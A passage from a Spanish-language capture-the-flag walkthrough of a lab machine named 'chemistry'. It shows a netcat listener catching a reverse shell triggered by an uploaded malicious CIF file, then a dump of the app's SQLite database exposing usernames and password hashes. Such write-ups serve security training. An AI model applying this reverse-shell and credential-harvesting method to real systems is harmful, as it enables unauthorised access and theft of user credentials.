 Nos pondremos en escucha por un puerto, subiremos nuevamente el nuevo archivo `CIF` malicioso y al visualizarlo desde la página web, verificaremos que hemos recibido el acceso a la máquina víctima correctamente.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.38] 36714
sh: 0: can't access tty; job control turned off
$ hostname
chemistry
$ whoami
adminapp
```

## Initial Access

### Confidential information exposed in a DB file

Revisando el directorio en el cual nos encontramos actualmente con el usuario `adminapp`, revisamos que existe un archivo de una base de datos.

Al verificar el contenido de la base de datos, nos encontramos con usuarios y lo que parecen ser contraseñas en formato hash.&#x20;

```bash
adminapp@chemistry:~/instance$ cat database.db 
�f�K�ytableuseruserCREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
)';indexsqlite_autoindex_user_1user�3�5tablestructurestructureCREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
����42Utest.cifd0c31e9e-b720-4eec-8a50-929380e381e3
Maxel9347f9724ca083b17e39555c36fd9007*e381e3 kristel6896ba7b11a62cacffbdaded457c6d92(
eusebio6cad48078d0241cca9a7b322ecd073b3)abian4e5Mtaniaa4aa55e816205dc0389591c9f82f43bbMvictoriac3601ad2286a4293868ec2a4bc606ba3)Mpeter6845c17d298d95aa942127bdad2ceb9b*Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*Mjobert3dec299e06f7ed187bac06bd3b670ab2*Mrobert02fcf7cfc10adc37959fb21f06c6b467(Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'Mapp197865e46b878d9e74a0346b6d59886a)Madmin2861debaf8d99436a10ed6f75a252abf
a��x����a�l�����__�
gzzcoo
kristeaxel
fabian
gelacia
eusebio
tania	
victoriapeter
carlos
jobert
roberrosaapp
```
